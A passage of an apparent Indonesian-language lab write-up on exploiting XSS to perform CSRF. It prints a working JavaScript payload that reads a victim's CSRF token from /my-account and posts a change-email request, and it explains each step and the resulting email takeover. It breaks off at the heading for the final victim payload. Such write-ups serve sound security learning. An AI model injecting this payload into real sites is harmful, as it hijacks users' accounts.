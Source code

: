 Untuk mengambil CSRF token dari halaman `/my-account`, kita dapat menggunakan skrip berikut:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get','/my-account',true);
    req.send();
    
    function handleResponse() {
        var csrf_token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        console.log(csrf_token);
        var xhr = new XMLHttpRequest();
        xhr.open("POST", '/my-account/change-email', true);
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.onreadystatechange = () => { 
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                // Permintaan berhasil
            }
        }
        xhr.send("email=test12@test.com&csrf="+csrf_token);
    };
</script>
```

Skrip ini melakukan hal berikut:
1. Mengirim permintaan GET ke `/my-account` untuk mengambil halaman akun.
2. Menggunakan ekspresi reguler untuk mengekstrak nilai CSRF token dari respons.
3. Mengirim permintaan POST ke `/my-account/change-email` dengan email baru dan CSRF token yang diambil.

![Langkah 7](images/Exploiting%20XSS%20to%20perform%20CSRF/7.png)

Setelah menjalankan skrip ini, email pengguna yang menjadi korban akan diubah menjadi `test12@test.com`.

### 7. Menyusun Payload Akhir untuk Korban
